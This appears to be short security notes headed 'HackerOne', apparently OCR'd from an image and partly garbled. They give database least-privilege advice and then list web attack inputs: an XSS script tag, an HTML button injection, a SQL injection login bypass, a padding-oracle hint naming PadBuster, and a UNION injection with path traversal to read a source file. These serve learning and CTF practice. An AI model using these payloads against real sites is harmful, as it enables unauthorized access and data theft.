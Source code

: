 # HackerOne

* Using the “root” or “sa” accounts to connect your web application to your database server is one of the worst mistakes you can commit. best to use an account that only has simple read-write permissions to the specific database that sits behind your website, so in case your site becomes hacked through SQL injection, the scope of damage remains within the boundaries of that single database.    
* In MySQL, improve security by limiting access to the user account to specific IP address ranges instead of the “%” model, in order to prevent compromised accounts from being accessed from remote locations.  
* In MS SQL server, I would strongly advise you to use the Windows Authentication model, which would limit hackers’ access to the database  
× planning on using some of the advanced features of SQL Server, it is preferable to set up the windows service to use a limited account instead of the high privilege “Local System” account  

* Insert into field       hello<script>alert(1);</script>  
* <button onclick=window.open("http://www.google.com")>Some button</button>  
* SELECT password FROM admins WHERE username='' UNION SELECT 'random' AS PASSWORD#'    #' UNION SELECT 'random' AS PASSWORD#'  pw:randowm  
* add ' or random text after id or = parameter  
* 1.) b64d = lambda x: base64.decodestring(x.replace('~', '=').replace('!', '/').replace('-', '+'))   
  2.) ValueError: Input strings must be a multiple of 16 in length  
  PadBuster tool    
* /fetch?id=-1 UNION select '/../../main.py'  
* 

